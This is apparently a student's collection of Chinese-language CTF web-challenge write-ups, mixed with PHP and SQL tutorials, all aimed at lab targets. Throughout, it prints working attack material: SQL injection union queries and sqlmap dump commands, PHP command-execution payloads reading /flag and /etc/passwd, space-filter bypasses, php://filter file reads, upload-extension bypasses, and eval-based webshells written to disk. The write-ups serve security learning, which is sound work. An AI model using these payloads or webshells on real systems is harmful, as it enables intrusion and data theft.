




# [SWPUCTF 2021 新生赛]gift_F12


我还以为是要改今天的时间

# [SWPUCTF 2021 新生赛]jicao


要求post传入id值为wllNB，直接上传

## JSON

JSON（JavaScript Object Notation） 是一种轻量级的数据交换格式，它以易于阅读和编写的文本形式表示数据。JSON 最初是为JavaScript开发 的，但已成为一种 通用的数据格式，常用于数据存储与交换。

### **JSON 数据格式的特点**

| 特点               | 具体描述                                                     |
| ------------------ | ------------------------------------------------------------ |
| **键值对结构**     | JSON 以 **键值对 (key-value)** 的形式表示数据，结构清晰，直观易懂，非常适合表示结构化数据。 |
| **跨语言兼容性**   | JSON 是一种 **独立于语言** 的数据交换格式，几乎所有现代编程语言（如 JavaScript、Python、Java、PHP 等）都支持 JSON 的解析和生成。 |
| **支持的数据类型** | JSON 支持 **字符串（string）**、**数字（number）**、**布尔值（boolean）**、**数组（array）**、**对象（object）** 和 **null**。 |
| **不支持注释**     | JSON 是纯粹的数据描述格式，不支持 `//` 或 `/* */` 注释，因此不能直接在 JSON 中写注释。 |
| **无循环引用**     | JSON 不允许对象或数组中出现循环引用（自己包含自己），避免了无限递归的问题。 |
| **支持嵌套**       | JSON 可以嵌套对象或数组，使得它能够表达复杂的层次化结构数据。 |

```
{
  "name": "John",
  "age": 30,
  "hometown": "New York",
  "pets": [
    {
      "name": "Fido",
      "species": "dog"
    },
    {
      "name": "Fluffy",
      "species": "cat"
    }
  ],
  "car": null
}
```

JSON 数据中，`键必须为字符串`，而值可以是 `字符串`、`数值`、`布尔值`、`数组`、`JSON` 或 `null`。

JSON 格式中，字符串 `必须使用双引号而不能使用单引号`。

## json_decode() 

可以对JSON字符串解码，并转换为PHP变量

```
mixed json_decoce( $json_str, assoc, depth, options )
```

$json_str ：需要解码的JSON字符串，只能处理UTF-8编码的数据
assoc ：布尔类型，true返回数组，（默认）false返回对象
depth ：整数类型，递归的深度（默认512层），最大 2147483647 层
options ：二进制掩码，目前只支持 JSON_BIGINT_AS_STRING


# 定义 JSON 数据
```
$json_content = '{
    "name": "John",
    "age": 30,
    "hometown": "New York",
    "pets": [
        {
            "name": "Fido",
            "species": "dog"
        },
        {
            "name": "Fluffy",
            "species": "cat"
        }
    ],
    "car": null
}';

print('【将 JSON 数据解析为对象进行返回】' . "\n");
$result_1 = json_decode($json_content);
var_dump($result_1);

print("\n" . '【将 JSON 数据解析为关联数组进行返回' . "\n");
$result_2 = json_Decode($json_content, true);
var_dump($result_2);
```


```
【将 JSON 数据解析为对象进行返回】
object(stdClass)#1 (5) {
  ["name"]=>
  string(4) "John"
  ["age"]=>
  int(30)
  ["hometown"]=>
  string(8) "New York"
  ["pets"]=>
  array(2) {
    [0]=>
    object(stdClass)#2 (2) {
      ["name"]=>
      string(4) "Fido"
      ["species"]=>
      string(3) "dog"
    }
    [1]=>
    object(stdClass)#3 (2) {
      ["name"]=>
      string(6) "Fluffy"
      ["species"]=>
      string(3) "cat"
    }
  }
  ["car"]=>
  NULL
}

【将 JSON 数据解析为关联数组进行返回
array(5) {
  ["name"]=>
  string(4) "John"
  ["age"]=>
  int(30)
  ["hometown"]=>
  string(8) "New York"
  ["pets"]=>
  array(2) {
    [0]=>
    array(2) {
      ["name"]=>
      string(4) "Fido"
      ["species"]=>
      string(3) "dog"
    }
    [1]=>
    array(2) {
      ["name"]=>
      string(6) "Fluffy"
      ["species"]=>
      string(3) "cat"
    }
  }
  ["car"]=>
  NULL
}
```

## **var_dump()** 

用于输出变量的相关信息。

显示关于一个或多个表达式的结构信息，包括表达式的类型与值。数组将递归展开值，通过缩进显示其结构。

PHP 版本要求: PHP 4, PHP 5, PHP 7

```
<?php
$a = array(1, 2, array("a", "b", "c"));
var_dump($a);
?>
```

```
array(3) {
  [0]=>
  int(1)
  [1]=>
  int(2)
  [2]=>
  array(3) {
    [0]=>
    string(1) "a"
    [1]=>
    string(1) "b"
    [2]=>
    string(1) "c"
  }
}
```

# [SWPUCTF 2021 新生赛]easy_md5


要求上传name和password，但是要内容不一样，md5值是一样的

## 数组漏洞绕过:

PHP md5函数接收的参数为string（字符串型），如果传入arry（数组型）就无法计算其md5值，但不会报错，导致数组md5值都相等.


## PHP ‘==’（弱类型比较）漏洞绕过

原理解释：PHP在进行“==”（弱类型比较）时，会先转换字符串类型，再进行字符串比较，而进行md5后以0e开头的都会被PHP识别为科学计数法，即0e*被视作0的*次方，结果都为0，故我们只需找到md5后为0e*的字符串，常用md5后为0e*的有：

字符串         对应md5值

240610708      0e462097431906509019562988736854

QLTHNDT       0e405967825401955372549139051580

QNKCDZO      0e830400451993494058024219903391

PJNPDWY       0e291529052894702774557631701704

NWWKITQ      0e763082070976038347657360817689

NOOPCJF       0e818888003657176127862245791911

MMHUWUV    0e701732711630150438129209816536

MAUXXQC     0e478478466848439040434801845361

## php中强弱比较

**`==` 弱比较**：自动进行类型转换，对于字符串中包含数字或科学计数法的部分，会取数值进行比较。

**`===` 强比较**：要求值和类型完全一致，不会进行任何类型转换。

1. **`==` 弱比较**：

- 在弱比较中，PHP 会进行自动类型转换。它会尝试将字符串中的数值部分提取出来，进行比较。
- 当字符串中包含 `e` 或 `E` 时，PHP 会将其视为科学计数法的数值，并按照这个规则进行比较。

- **`'123' == '123'`** -> `true`
   这两个字符串完全相等，所以返回 `true`。
- **`'123' == '123abc....'`** -> `true`
   PHP 只比较字符串开头的数值部分，`'123abc....'` 会被视为 `123`，因此返回 `true`。
- **`'1e3' == '1e3'`** -> `true`
   `'1e3'` 是科学计数法，表示 `1 * 10^3 = 1000`，它们的值是相等的，因此返回 `true`。
- **`'1e3ctf' == '1e3ctf'`** -> `true`
   `'1e3ctf'` 和 `'1e3ctf'` 在解析时，都是 `1 * 10^3 = 1000`，所以结果是 `true`。
- **`'1e3' == '1e4'`** -> `false`
   `'1e3'` 对应 `1000`，而 `'1e4'` 对应 `10000`，这两个值不同，因此返回 `false`。
- **`'1e3ctf' == '1e4ctf'`** -> `false`
   `'1e3ctf'` 和 `'1e4ctf'` 解析为 `1000` 和 `10000`，这两个值不相等，所以返回 `false`。

2. **`===` 强比较**：

- 强比较要求 **值和类型** 完全相等。如果两个操作数的类型不同，直接返回 `false`，即使它们的值相同。

- **`'1e3' === '1e3'`** -> `true`
   两个字符串的值和类型都相同，因此返回 `true`。

- **`'1e3ctf1' === '1e3ctf2'`** -> `false`
   虽然这两个字符串都包含 `1e3ctf`，但是它们的最后一个字符不同，一个是 `1`，一个是 `2`，因此返回 `false`。

  

# [SWPUCTF 2021 新生赛]include


## allow_url_include

**`allow_url_include`** 允许使用 URL 作为文件路径，因此攻击者可以利用 PHP 的 `include`、`require` 等函数来包含远程文件。

## php伪协议简单认识

假设你要读取一个本地文件（如 `flag.php`），并且 `allow_url_include` 已经开启。可以构造如下 payload 来读取文件内容：

```
include("php://filter/convert.base64-encode/resource=flag.php");
```

这个 Payload 的构造方式：

1. `php://filter`: 使用 `filter` 协议。
2. `convert.base64-encode`: 对文件内容进行 Base64 编码，这样可以以文本形式查看文件内容，而不会直接执行其中的代码。
3. `resource=flag.php`: 目标文件的路径。

这种方式会将 `flag.php` 文件的内容进行 Base64 编码，然后作为字符串输出，而不是直接执行该文件的内容。


这个题得出一串字符串，base64解码即可

# [SWPUCTF 2021 新生赛]easy_sql


## 方法一

判断字段数

```
?wllm=1'order by 3 --+
?wllm=1'order by 4 --+
```

3可以


4不行，判断字段数为3



暴出显示点

```
/?wllm=-1 ' union select 1, 2, @@version -- '
```


爆库名

```
/?wllm=-1%27union%20select%201,database(),version()--+
```


爆用户名

```
/?wllm=-1 ' union select 1, 2, user() -- '
```


爆表

```
/?wllm=-1 ' union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='test_db'-- '
```



爆列

```
/?wllm=-1 ' union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='test_tb' -- '
```


拿flag

```
/?wllm=-1 ' union select 1,2, group_concat(flag) from test_tb -- '
```


## 方法二

输入sqlmap的命令，爆破数据库名：sqlmap -u "url地址/?wllm=1" --dbs

```
sqlmap -u "http://node7.anna.nssctf.cn:22221/?wllm=1" --dbs
```


爆表名：sqlmap -u "url地址/?wllm=1" -D test_db --tables

```
sqlmap -u "http://node7.anna.nssctf.cn:22221/?wllm=1" -D test_db --tables
```


爆列名：sqlmap -u "url地址/?wllm=1" -D test_db -T test_tb --columns

```
sqlmap -u "http://node7.anna.nssctf.cn:22221/?wllm=1" -D test_db -T test_tb --columns
```


最后就爆出flag啦：sqlmap -u "url地址/?wllm=1" -D test_db -T test_tb -C flag --dump  

```
sqlmap -u "http://node7.anna.nssctf.cn:22221/?wllm=1" -D test_db -T test_tb -C flag --dump  
```


## sql注入简介

SQL注入指用户输入的参数可控且没有被过滤，攻击者输入的恶意代码被传到后端与SQL语句一起构造并在数据库中执行

例如，假设一个登录页面使用以下SQL查询来验证用户输入：

```
SELECT * FROM users WHERE username = 'input_username' AND password = 'input_password';
```

如果攻击者输入如下内容：

- 用户名：`' OR '1'='1`
- 密码：`' OR '1'='1`

这会生成类似下面的SQL查询：

```
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';
```

由于 `'1'='1'` 总是成立，查询结果会返回数据库中的所有用户信息，甚至可能绕过登录验证。

### 普通查询注入

判断漏洞是否存在

**数字型**

例如后端SQL语句长这样

```sql
select * from article where artid = 1 and xxxxx;
```

GET的请求参数是artid，可以在参数值后面输入单引号，此时数据库无法执行就会报错，说明存在SQL注入

```sql
?artid=1'
 
# select * from article where artid = 1' and xxxx;
```

通过and 1=1 ，and 1=2 判断

```sql
?artid=1 and 1=1
?artid=2 and 1=2
# select * from article where artid = 1 and 1=1 and xxxx;
# 若and 1=1页面回显正常，and 1=2 回显不正常 ，则说明拼接成功（1=2 永远为假，SQL 查询结果为空，所以页面回显异常或无数据）
#这种差异说明你的输入 确实影响了 SQL 的逻辑，也就是说参数被直接拼接进 SQL 中，没有经过预编译或安全处理。这就是 SQL注入成立的证明。
```

需要注意的是，在测试**删除功能**时尽量不要使用`and 1=1`，否则可能会将数据全部删除

**字符型**

与数字型类似，只是要注意单引号/双引号/括号的闭合，可以在最后加上注释符把后面的闭合符号和语句直接注释掉

#### 判断字段数

```sql
?artid=1 order by 4
# 遍历数字，页面内容回显正常说明列数正确
```

order by 无法使用时，可以通过SELECT NULL判断

```sql
?artid=1 SELECT NULL, NULL, NULL, NULL
```

#### 暴库名

```sql
?artid=-1 union select 1, database(), 3, 4
```

#### 暴表名

```sql
?artid=-1 union select 1,group_concat(table_name), 3, 4 from information_schema.tables where table_schema=xxx
```

### information_schema.tables 

`information_schema` 是 MySQL 自带的**系统数据库**，里面存放了数据库的元数据（metadata），比如：

- 所有数据库的名字
- 每个数据库里的表名
- 每张表的字段名、索引等信息

其中的 **`tables` 表** 保存了 **所有数据库中的所有表** 的信息。

`information_schema.tables` 的常见字段包括：

- `table_schema`：表所在的数据库名
- `table_name`：表的名字
- `table_type`：表的类型（BASE TABLE 或 VIEW）
- `engine`：存储引擎（如 InnoDB）
- `create_time`：表的创建时间

### table_schema

`table_schema` 字段表示**表所属的数据库**，也就是数据库名。

比如：
 如果你有一个数据库 `blog`，里面有一张 `article` 表，那么：

```
SELECT table_name, table_schema FROM information_schema.tables;
```

可能会返回：

| table_schema | table_name |
| ------------ | ---------- |
| blog         | article    |
| blog         | users      |
| mysql        | user       |
| testdb       | test_table |

`information_schema.tables` 就是数据库中所有“表清单”的总目录。

`table_schema` 用来筛选某个数据库（相当于“库名”）。

# [SWPUCTF 2021 新生赛]easyrce


```
  ?url=system("ls /");
   #?代表拼接
   #ls /代表列出目录文件，学过Linux系统的大部分都有所了解。
   #代码意思是将外部执行命令ls /的结果赋值给url变量，最后在浏览器中显示结果。
   #注意以;英文分号进行闭合。
```

使用cat命令查看flllllaaaaaaggggggg文件中的命令，需注意的是文件在/根目录下：

```
?url=system("cat /flllllaaaaaaggggggg");
```


## 执行外部命令函数

### exec 

exec 执行系统外部命令时不会输出结果，而是返回结果的最后一行，如果你想得到结果你可以使用第二个参数，让其输出到指定的数组，此数组一个记录代表输出的一行，即如果输出结果有20行，则这个数组就有20条记录，所以如果你需要反复输出调用不同系统外部命令的结果，你最好在输出每一条系统外部命令结果时清空这个数组，以防混乱。第三个参数用来取得命令执行的状态码，通常执行成功都是返回０。 
#示例代码：

```
<?php
        echo exec("ls",$file);
        echo "</br>";
        print_r($file);
?>
```

#输出结果：

```
test.php
Array( [0] => index.php [1] => test.php)
```

### passthru

passthru与system的区别，passthru直接将结果输出到浏览器，不需要使用 echo 或 return 来查看结果，不返回任何值，且其可以输出二进制，比如图像数据。
#示例代码：

```
<?php
        passthru("ls");
?>
```

#输出结果：

```
index.phptest.php
```

### system

system和exec的区别在于system在执行系统外部命令时，直接将结果输出到浏览器，不需要使用 echo 或 return 来查看结果，如果执行命令成功则返回true，否则返回false。
#示例代码：

```
<?php
        system("ls /");
?>
```

#输出结果：
 binbootcgroupdevetchomeliblost+foundmediamntoptprocrootsbinselinuxsrvsystmpusrvar

### 反撇号和shell_exec()函数

shell_exec() 函数实际上仅是反撇号 (`) 操作符的变体

#示例代码：

```
<?php
        echo `pwd`;
?>
```

#输出结果：

```
/var/www/html
```

# [LitCTF 2023]我Flag呢？


# [SWPUCTF 2021 新生赛]caidao

## 方法一


```
post传参
wllm=echo `cat /flag`
#cat也可以为tac（反过来输出）
当然也可以
wllm=system("cat /flag");
同样也有
wllm=var_dump(file_get_contents("/flag"));
#var_dump()函数用于输出变量的相关信息（前面介绍过）
file_get_contents()函数用于读取文件
```


## 方法二

蚁剑连接


在根目录里找到flag

# [SWPUCTF 2021 新生赛]Do_you_know_http


让我们使用wllm浏览器，直接burp抓包进行更改


修改User-Agent为WLLM，再放包


要求ip必须为本地


抓包加入

```
X-Forwarded-for: 127.0.0.1
```


# [SWPUCTF 2021 新生赛]babyrce


直接Hackbar抓包即可


## preg_match

- ```
  `preg_match("/ /", $ip)`
  
  `/ /` 是一个正则表达式，表示匹配 **一个空格字符**。
  `preg_match()` 如果匹配成功，返回 `1`；否则返回 `0`。
  ```

  


```
#过滤了空格，采用${IFS}代替空格
#输入flag没有回显，部分匹配+通配符/模糊得到flag
/?url=cat${IFS}/f***
```

## 空格被过滤：使用 `${IFS}` 替代空格

- **`IFS`**（Internal Field Separator）是 Bash 的内部变量，默认值是空格、Tab 和换行。
- 在命令中，如果写 `${IFS}`，Shell 会把它解析为一个空格。

例如：

```
cat${IFS}/etc/passwd
```

等效于：

```
cat /etc/passwd
```

## 部分匹配+通配符/模糊

Linux Shell 支持文件名通配符 `*`。
 例如 `/f***` 可以匹配 `/flag` 文件（因为 `*` 匹配任意字符）。

```
cat /f***
```

会被系统自动展开为：

```
cat /flag
```



# [第五空间 2021]WebFTP


## 方法一


在GitHub上直接找到账号密码，登录成功后可以在phpinfo里找到flag（但是我不知道怎么回事没法直接点击访问；同样这也颇有一种定点打靶的感觉，没有题解我肯定不太知道在这里的，还得练）


## 方法二

dirserach目录扫描

```
python dirsearch.py -u http://node4.anna.nssctf.cn:28342
```


# [SWPUCTF 2021 新生赛]ez_unserialize


发现disallow

Robots 协议（也称为爬虫协议、机器人协议等）的全称是 “网络爬虫排除标准”（Robots Exclusion Protocol），网站通过 Robots 协议告诉搜索引擎哪些页面可抓，哪些页面不能抓。

disallow就是爬虫不能搜索的所以我们去看看robots.txt




```
<?php
class wllm{
    public $admin;
    public $passwd;
    public function __construct(){
        $this->admin ="user";
        $this->passwd = "123456";
    }

}

$w=new wllm();
$w->admin="admin";
$w->passwd="ctf";
$w=serialize($w);
echo $w;
```

输出

```
O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}
```


## PHP序列化（`serialize`）简介

`serialize()` 是 PHP 的一个内建函数，它将对象、数组或其他数据结构转化成一个字符串（即序列化）。这个字符串可以通过 `unserialize()` 函数反序列化还原回原来的数据结构。

```
O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}
```


 `O:4:"wllm":2:`

- `O` 表示这是一个 **对象**（Object）。
- `4` 表示类名 `wllm` 的长度（即 `wllm` 字符串有 4 个字节）。
- `"wllm"` 是对象的类名。
- `2` 表示这个对象有 **2 个属性**（`$admin` 和 `$passwd`）。

`{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}`

这是对象属性的具体内容。大括号内有两组键值对，每组描述一个对象的属性。

- `s:5:"admin";`：这表示属性名是一个字符串（`s`），长度为 5（`"admin"`），即 `$admin` 属性名。
- `s:5:"admin";`：这表示 `$admin` 属性的值是一个字符串（`s`），长度为 5（`"admin"`）。
- `s:6:"passwd";`：这表示属性名是字符串（`s`），长度为 6（`"passwd"`），即 `$passwd` 属性名。
- `s:3:"ctf";`：这表示 `$passwd` 属性的值是字符串（`s`），长度为 3（`"ctf"`）。

# [SWPUCTF 2021 新生赛]easyupload2.0

牛魔，复现到这里没金币了，没法打开题目环境了，只能吧别人题解的搞过来了，绷


burp抓包，直接改文件后缀为phtml，上传成功后蚁剑连接即可拿到flag

正常来说通过 getshell 拿到 flag 就行了(题目也是这个意思)，但是这个 flag 是错误的，真正的 flag 在 phpinfo 里， CTRL+F 搜索 flag 就能找到

## 等价拓展名：

- asp => asa、cer、cdx
- aspx => ashx、asmx、ascx
- php => php2、php3、php4、php5、phps、phtml
- jsp => jspx、jspf

# [LitCTF 2023]PHP是世界上最好的语言！！

## 方法一


输入框可以执行命令

```
<?php system("ls"); ?>
```


```
<?php system("ls ../../../"); ?>
```


```
<?php system("cat /flag"); ?>
```


## 方法二、将 PHP 一句话木马写入文件

为了蚁剑能连上，直接执行木马是不行的，要将木马写入文件中。

## fopen() 函数

```
fopen(filename,mode,include_path,context)
```

**`filename`（必需）**

- 你要打开的文件名（可以是本地文件路径，也可以是 URL，如果 `allow_url_fopen` 在 php.ini 中被开启）。
- 例：`"file.txt"` 或 `"https://example.com/file.txt"`

**`mode`（必需）**

- 决定文件的打开方式（读/写/追加等）。
- 可选值：
  - **`r`**：只读模式（从文件头开始，文件必须存在）。
  - **`r+`**：读写模式（从文件头开始，文件必须存在）。
  - **`w`**：写入模式（清空文件内容，如果文件不存在会尝试创建）。
  - **`w+`**：读写模式（清空文件内容，如果文件不存在会尝试创建）。
  - **`a`**：追加模式（写入时从文件末尾开始，如果文件不存在会尝试创建）。
  - **`a+`**：读写追加模式（写入时从文件末尾开始，如果文件不存在会尝试创建）。
  - **`x`**：创建新文件并写入（文件已存在时返回 `FALSE`）。
  - **`x+`**：创建新文件并读写（文件已存在时返回 `FALSE`）。

**`include_path`（可选）**

- 如果设为 `1`，PHP 会在 `include_path`（在 `php.ini` 中配置）中搜索文件。
- 常用于引用包含在 `include_path` 下的文件。

**`context`（可选）**

- 用于指定文件句柄的上下文（比如 HTTP 请求头、超时设置、代理等）。
- 通过 `stream_context_create()` 来创建 context 对象。

```
fopen('shell.php','w')
```

该语句的意思为，以写入方式打开一个叫做“ shell.php ”,的文件，该文件不存在，故创建了一个shell.php文件。

## fputs() 函数

fputs() 函数将内容写入一个打开的文件中。

```
fputs(file,string,length)
```

**`file`**（必需）：由 `fopen()` 打开的文件句柄。

**`string`**（必需）：要写入文件的字符串。

**`length`**（可选）：要写入的最大字节数。如果省略，则写入整个字符串。

组合一下

```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[cmd]);?>' ) ?>
```


显然是 php 头被过滤了，那么就换一种 payload ：

```
<?php fputs(fopen('shell2.php','w'),'<script language="php">@eval($_POST["shell"]);</script>') ?>
```

成功写入，并且在 shell2.php 页面没有任何内容，用蚁剑去连的时候发现连不上：返回数据为空

# [SWPUCTF 2021 新生赛]easyupload1.0


上传一句话木马的图片，抓包改后缀为php，蚁剑链接可以找到flag，但是这个flag是假的

```
<?php @eval($_POST['shell']);?>
```

看题解发现flag在phpinfo中，我们post传参，使shell=phpinfo();接着访问phpinfo即可早其中拿到flag

